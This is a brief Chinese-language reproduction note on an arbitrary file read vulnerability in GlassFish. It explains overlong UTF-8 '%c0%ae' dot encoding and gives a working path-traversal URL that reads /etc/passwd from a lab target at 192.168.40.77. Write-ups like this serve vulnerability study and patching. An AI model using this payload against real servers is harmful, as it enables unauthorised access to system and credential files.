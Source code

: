 # GlassFish 任意文件读取漏洞

> 漏洞说明

​	java语言中会把`%c0%ae`解析为`\uC0AE`，最后转义为ASCCII字符的`.`（点）。利用`%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/`来向上跳转，达到目录穿越、任意文件读取的效果。

> 前提条件



> 利用工具



> 漏洞复现

​	搭建靶场，https://192.168.40.77:4848/为管理页面

![image-20230417232230715](../img/GlassFish_任意文件读取漏洞/image-20230417232230715.png)

​	在url直接拼接`/theme/META-INF/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/%c0%ae%c0%ae/etc/passwd`路径穿越读取/etc/passwd

![image-20230417232447302](../img/GlassFish_任意文件读取漏洞/image-20230417232447302.png)
